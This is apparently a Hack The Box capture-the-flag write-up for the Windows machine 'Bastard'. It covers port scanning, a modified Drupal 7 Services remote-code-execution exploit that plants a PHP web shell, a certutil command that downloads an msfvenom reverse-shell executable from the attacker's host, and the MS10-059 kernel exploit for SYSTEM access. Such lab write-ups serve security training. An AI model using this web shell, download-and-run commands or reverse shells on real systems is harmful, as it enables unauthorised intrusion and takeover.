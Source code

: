 ```yaml
---
title: "HTB Bastard"
permalink: /writeups/bastard
location: default
---
```

# HTB Bastard

**Machine Information**

	IP : 10.10.10.9
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`. 

```
rustscan -a 10.10.10.9 -- -sC -sV
```

This should reveal three open ports: `80`, `135`, and `49154`.

```
PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**Drupal Exploit**

The `nmap` output shows that the web server is running `Drupal 7` which can be confirmed using the `CHANGELOG.txt` file.

<http://10.10.10.9/CHANGELOG.txt>

Use `searchsploit` to look for exploits for `Drupal 7`.

```
searchsploit drupal 7
```

This will reveal a PHP exploit that results in remote code execution.

```
Drupal 7.x Module Services - Remote Code Execution | php/webapps/41564.php
```

Reviewing the exploit shows it is looking for the `/rest_endpoint` endpoint but trying to visit this page returns a 404 error. After running `dirsearch` though we can see an endpoint at `/rest`.

```
dirsearch -u http://10.10.10.9
```

This can be confirmed by visiting the page in a browser.

<http://10.10.10.9/rest>

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Modify the exploit to use our target IP and endpoint. We want to set the payload to a reverse shell.

```php
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
    if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.4:8000/" . $_REQUEST['fupload']));
    };
    if (isset($_REQUEST['fexec'])) {
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
    };
?>
EOD;

$file = [
    'filename' => 'shell.php',
    'data' => $phpCode
];
```

Run the exploit to upload a web shell. We can use the web shell to run commands on the target system.

```
http://10.10.10.9/shell.php?fexec=whoami
```

To get a full shell we will create a payload using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Use our web shell to upload this to our target machine.

```
http://10.10.10.9/shell.php?fexec=certutil -urlcache -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a new `netcat` listener and run the executable.

```
http://10.10.10.9/shell.php?fexec=shelly.exe
```

Success!

```
C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

The user flag can be found in the following directory:

```
C:\Users\dimitris\Desktop\user.txt
```

### Privilege Escalation

Checking `systeminfo` shows that no hotfixes have been applied so the machine is likely vulnerable.

```
Hotfix(s):                 N/A
```

Upload the `Chimichurri.exe` exploit to the target machine. It can be obtained from the following link:

<https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe>

Transfer it to the target machine and start a new `netcat` listener. Once listening run the exploit to get an elevated shell.

```
.\MS10-059.exe 10.10.14.4 9001
```

Success!

```
C:\temp>whoami
nt authority\system
```

The root flag can be retrieved from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
